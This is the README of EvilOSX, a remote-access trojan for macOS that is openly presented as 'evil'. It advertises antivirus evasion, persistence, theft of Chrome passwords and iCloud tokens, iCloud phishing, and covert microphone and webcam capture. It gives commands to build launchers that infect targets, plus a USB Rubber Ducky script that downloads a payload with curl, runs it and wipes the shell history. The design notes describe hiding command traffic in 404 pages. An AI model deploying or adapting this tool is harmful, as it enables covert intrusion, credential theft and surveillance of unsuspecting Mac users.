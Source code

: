 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="/data/images/logo.png?raw=true" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Administration Tool) for macOS / OS X.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square" alt="License">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/python-2.7,%203.7-blue.svg?style=flat-square" alt="Python">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg?style=flat-square" alt="Issues">
  </a>
  <a href="https://travis-ci.org/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/travis/Marten4n6/EvilOSX/master.svg?style=flat-square" alt="Build Status">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md">
      <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat-square" alt="Contributing">
  </a>
</p>

---

## Features
- Emulate a terminal instance
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md) system
- No bot dependencies (pure python)
- Undetected by anti-virus (OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encrypted payloads)
- Persistent
- GUI and CLI support
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Retrieve/monitor the clipboard
- Retrieve browser history (Chrome and Safari)
- [Phish](https://i.imgur.com/x3ilHQi.png) for iCloud passwords via iTunes
- iTunes (iOS) backup enumeration
- Record the microphone
- Take a desktop screenshot or picture using the webcam
- Attempt to get root via local privilege escalation

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Start the GUI
$ python start.py

# Lastly, run a built launcher on your target(s)
```
**Warning:** Because payloads are created unique to the target system (automatically by the server), the server must be running when any bot connects for the first time.

### Advanced users

There's also a CLI for those who want to use this over SSH:
```bash
# Create a launcher to infect your target(s)
$ python start.py --builder

# Start the CLI
$ python start.py --cli --port 1337
```

## Screenshots
![CLI](https://i.imgur.com/DGYCQMl.png)
![GUI](https://i.imgur.com/qw3k4z4.png)

## Motivation
This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the one you are looking for.


## Versioning
EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Design Notes
- Infecting a machine is split up into three parts:
  * A **launcher** is run on the target machine whose only goal is to run the stager
  * The stager asks the server for a **loader** which handles how a payload will be loaded
  * The loader is given a uniquely encrypted **payload** and then sent back to the stager
- The server hides it's communications by sending messages hidden in HTTP 404 error pages (from BlackHat's "Hiding In Plain Sight")
  * Command requests are retrieved from the server via a GET request
  * Command responses are sent to the server via a POST request
- Modules take advantage of python's dynamic nature, they are simply sent over the network compressed with [zlib](https://www.zlib.net), along with any configuration options
- Since the bot only communicates with the server and never the other way around, the server has no way of knowing when a bot goes offline

## Issues
Feel free to submit any issues or feature requests [here](https://github.com/Marten4n6/EvilOSX/issues).

## Contributing
For a simple guide on how to create modules click [here](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md).

## Credits
- The awesome [Empire](https://github.com/EmpireProject) project
- Shoutout to [Patrick Wardle](https://twitter.com/patrickwardle) for his awesome talks, check out [Objective-See](https://objective-see.com/)
- [manwhoami](https://github.com/manwhoami) for his projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt), [iCloudContacts](https://github.com/manwhoami/iCloudContacts)
- The slowloris module is pretty much copied from [PySlowLoris](https://github.com/ProjectMayhem/PySlowLoris)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the GUI
- Logo created by [motusora](https://www.behance.net/motusora)

## License
[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
